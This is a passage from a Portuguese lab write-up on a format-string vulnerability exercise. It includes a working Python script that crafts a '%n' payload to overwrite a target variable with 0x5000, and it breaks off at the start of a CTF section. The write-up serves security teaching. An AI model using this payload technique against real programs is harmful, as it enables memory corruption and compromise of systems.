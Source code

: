 
## Tarefa 3.B

A diferença desta tarefa para a anterior foi apenas na quantidade de caracteres aos quais
tivemos de dar print antes de usar o *format-specifier* `%n`.

Uma vez que é para alterar o *target* para `0x5000 = 20480`, e dado que
já são escritos 4 *bytes* devido ao endereço, torna-se necessário dar *print* a
mais `20480 - 4 = 20476` caracteres.

Uma vez mais, utilizamos um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%20476x%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

A única diferença relativamente ao *script* da [Tarefa 3.A](#tarefa-3a) foi
a adição de `%20476x` antes do *format-specifier* que guarda a quantidade de caracteres
aos quais se deu *print*, de modo a imprimir um suposto 1.º argumento do `printf()` em
formato hexadecimal em `20476` caracteres com *leading spaces*.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado para `0x5000`:  
![/imgs6/target_variable_change_0x5000.png](/imgs6/target_variable_change_0x5000.png)

De notar que foi efetivamente *printed* uma quantidade enorme de espaços seguida de um
valor hexadecimal de 4 *bytes*.


## CTF

### Desafio 1

Começamos por executar o seguinte comando:
```sh
checksec program
```
que retornou a seguinte informação:  